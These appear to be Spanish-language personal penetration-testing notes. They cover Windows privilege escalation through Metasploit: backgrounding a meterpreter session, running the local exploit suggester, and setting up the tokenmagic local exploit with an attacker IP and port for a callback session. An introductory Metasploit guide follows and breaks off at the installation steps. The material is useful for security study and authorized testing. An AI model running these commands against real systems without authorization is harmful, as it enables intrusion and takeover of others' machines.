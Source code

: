 - Para poder escalar privilegios de este modo lo mas aconsejable es vulnerar el sistema con una sesión de meterpreter como aparece en [[Metasploit]]

```bash
meterpreter >
				background        # poner la sesion en 2 plano 
				search local_exploit_suggester    # Buscar el modulo de escalada de privilegios
				use 0                             # Usar el modulo 
				show options
				sessions -l                       # Buscar las sesiones que tenemos activas
				set SESSION 1                     # Seteamos la sesion que habiamos dejado en 2 plano con su ID
				run
```

- Aqui nos aparecerán muchas formas de escalar privilegios, de las cuales probaremos una a una de las que están en verdes hasta que funcionen:

![[Pasted image 20251022195026.png]]

- Haremos lo siguiente:

```bash
use exploit/windows/local/tokenmagic   # seteamos el exploit que queramos
show options 
set SESSION 1           # Seteamos el ID de la sesion que teniamos
set LHOST <IpAtacante>  # seteamos nuestra ip
set LPORT 5555          # Cambiamos el puerto a uno que no estemos usando para evitar problemas de compatibilidad
```

- Con `sessions -i <ID>` podemos volver a la sesión que ya teníamos abierta 

---
# Guia Basica

Metasploit es una herramienta poderosa para pruebas de penetración, análisis de seguridad y explotación de vulnerabilidades en redes y sistemas. Aquí tienes una guía básica para empezar con Metasploit:

### 1. **Introducción a Metasploit**

Metasploit Framework es una plataforma de código abierto que contiene módulos de explotación, payloads (cargas útiles), encoders (codificadores), entre otros. Es utilizado por profesionales de la seguridad para realizar pruebas de penetración en sistemas con permisos apropiados.

### 2. **Instalación de Metasploit**

Para usar Metasploit, puedes instalarlo en sistemas basados en Linux (como Kali Linux, que lo trae preinstalado) o en Windows. La instalación varía según el sistema operativo:

- **En Kali Linux**: Generalmente, ya está instalado.
- **En Ubuntu**:
    
